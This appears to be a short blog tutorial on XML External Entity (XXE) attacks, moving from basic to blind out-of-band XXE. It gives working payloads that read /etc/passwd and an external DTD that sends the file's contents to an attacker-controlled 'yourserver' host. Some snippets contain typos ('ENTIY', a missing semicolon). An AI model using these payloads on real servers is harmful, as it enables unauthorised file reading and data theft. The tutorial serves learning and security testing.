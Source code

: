 Hi all,

&nbsp;  Welcome to my blog of "From basic XXE to blind XXE"<br><br>

### What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic 
2. Blind.

Let's talk about 'basic' type:- 

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://yourserverip/'>]><root>&test;</root>`

Now let's understand from Doctype portion. As we define the root element i.e. root, next in the DOCTYPE we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.

Now when you give this to miconfigured XML parser, the miconfigured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

### What if the xml data is not showing to us?

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload.
`
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]><root>&entity;</root>
`
Your xml.dtd contents:- 

`
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">
`

Lot's of code to understand:-

we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 

`%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`

When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 

Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see the demo below.

<video src="demo.mp4" width="320" height="200" controls preload></video>


